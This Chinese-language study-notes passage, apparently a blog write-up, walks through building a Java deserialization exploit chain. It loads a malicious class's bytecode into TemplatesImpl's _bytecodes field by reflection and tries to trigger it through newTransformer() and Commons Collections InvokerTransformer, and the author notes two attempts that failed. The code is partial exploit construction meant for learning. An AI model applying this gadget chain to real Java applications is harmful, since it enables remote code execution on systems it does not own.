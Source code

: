 先把开始构造的恶意类转换成字节码

```java
ClassPool classPool = ClassPool.getDefault();
CtClass ctClass = classPool.getCtClass("org.example.Evi");
byte[] bytes = ctClass.toBytecode();
```

通过反射给私有属性`_bytecodes`赋值

```java
Class<?> aClass = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
Constructor<?> constructor = aClass.getDeclaredConstructor(new Class[]{});//获取私有的有参构造方法
Object TemplatesImpl_instance = constructor.newInstance();
//将恶意类的字节码设置给_bytecodes属性
Field bytecodes = aClass.getDeclaredField("_bytecodes");
bytecodes.setAccessible(true);
bytecodes.set(TemplatesImpl_instance, new byte[][]{bytes});
```

在`getTransletInstance()`中，如果`_name`为空就`return`结束了，如下图

所以还要给`_name`赋值,这里赋值随便

```java
Field name = aClass.getDeclaredField("_name");
name.setAccessible(true);
name.set(TemplatesImpl_instance, "Evi");
```

![image-20230623220242028](https://raw.githubusercontent.com/todis21/image/main/image-20230623220242028.png)

到这里，看看有什么方法能够调用`getTransletInstance()`,因为这个是个私有的方法，要是能够找到一个`public`的方法调用它就好了

在同一个类里边找到了`newTransformer()`方法，符合要求

![image-20230623221024999](https://raw.githubusercontent.com/todis21/image/main/image-20230623221024999.png)



现在要解决的是怎么调用这个方法

我尝试使用反射的方法调用，但是不知道出了什么问题，用不了，先在这里留个坑，整明白再补,代码如下：

```java
// 调用newTransformer()方法
Method newTransformerMethod = aClass.getMethod("newTransformer");
newTransformerMethod.setAccessible(true);
Transformer transformer = (Transformer) newTransformerMethod.invoke(TemplatesImpl_instance);
```



另寻出路

`newTransformer()`方法返回的是`transformer`,这个很难不让人想起CC1中的transformer数组，

`InvokerTransformer`类中有一个`transform`方法会根据传入的`iMethodName`，`iParamTypes`，`iArgs`这三个成员属性来执行class对象的某个方法，并且这三个属性是根据InvokerTransformer类的构造传入的，然后通过`InvokerTransformer`类的`transform`方法来调用`newTransformer`方法。

自己的想法(想直接用transform，但是没成功，第二个坑)：
```
new InvokerTransformer("newTransformer", null, null).transform(TemplatesImpl_instance);
```

